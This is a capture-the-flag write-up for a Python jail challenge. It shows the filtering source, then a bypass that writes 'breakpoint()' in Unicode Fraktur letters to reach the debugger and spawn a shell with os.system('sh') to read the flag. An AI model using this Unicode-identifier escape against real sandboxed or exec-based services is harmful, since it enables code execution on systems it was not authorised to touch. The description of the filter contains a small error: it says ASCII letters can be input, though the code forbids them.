 # HellJail
> `-`

## About the Challenge
We were given a source code like this

```python
#!/usr/bin/env python3

from string import ascii_letters

code = input('> ')

if any(c in ascii_letters for c in code):
    print('You will never leave this place!')
elif any(c in '.:;,-_@"=/%\\' for c in code):
    print('You will never reach this point, but still, you CANNOT leave!')
else:
    exec(code)
```

And we need to escape from the sandbox but we can input any ASCII letter and also some of the special character


[Image extracted text: print(1)
You will
never Leave this place!]



## How to Solve?
To solve this problem, we need to convert our payload first to gothic font (Im using this [website](https://yaytext.com/fraktur/)) and here is the payload I used

```
𝔟𝔯𝔢𝔞𝔨𝔭𝔬𝔦𝔫𝔱()
```

And then after enterring Python debugging, i ran this command

```python
import os
os.system('sh')
```


[Image extracted text: breafpo int()
~~Return-
<string (1)<module>()->None
(Pdb) import
05
(Pdb)
05
system( ' sh' )
ls
flag.txt
run
cat flag.txt
DANTE{4bundOn_all_hOp3_y3_who_3nter}]


```
DANTE{4b4nd0n_all_h0p3_y3_who_3nter}
```